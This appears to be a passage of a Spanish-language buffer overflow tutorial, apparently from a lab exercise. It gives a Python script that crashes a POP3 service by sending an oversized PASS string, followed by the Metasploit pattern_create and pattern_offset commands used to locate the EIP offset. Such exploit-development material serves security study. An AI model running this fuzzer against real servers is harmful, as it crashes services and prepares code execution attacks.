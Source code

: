 ```python
#!/usr/bin/python3 

import socket
import sys 

ip = "192.168.1.34"
port = 110

def bof(): 
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # Se crea una conexión el la variable s

    s.connect((ip, port)) # Nos conectamos a la ip y el puerto dado 

    banner = s.recv(1024) # Recibimos la respuesta de 1024 bytes 
    
    if(banner):
        s.send(b"USER dobliuw" + b'\r\n') #Envíamos la string "USER dobliuw" en formato byte y "\r\n" es una manera de simular el ENTER
        response = s.recv(1024)
        print(response)
        s.send(b"PASS " + b"A"*5000 + b'\r\n') # Envíamos la string "PASS AAAAAAAAAA...." en formato byte, siendo el 5000 la cantidad de caracteres a probar hasta generar el fallo.
        s.close()


if __name__ == "__main__":
    bof()
```

### Una vez encontrado un número el cual ocasione un fallo, en este caso 5000, sabemos que al ingresar esta cantidad el programa corrompe debido a que el bufer asignado para la password es de un tamaño de caracteres menor a estos 5000, por lo que ahora hay que encontrar el **offset**.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000 
# pattern_create.rb es un scrip en rubi el cual recibe una logitud de caracteres creando así un payload para envíar. 
```

### Una vez generada la cadena de bytes a enviar, simplemente tendríamos que mandarlo y ver el valor por el cual se sobrescribe el registro EIP, para luego hacer uso de otra herramienta para obtener la cantidad de caracteres previos antes de que el registro EIP se sobrescriba.

```bash
# Si el registro EIP marca "7A46317A" debemos ingresarlo junto a un 0x al principio 
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x7A46317A
```
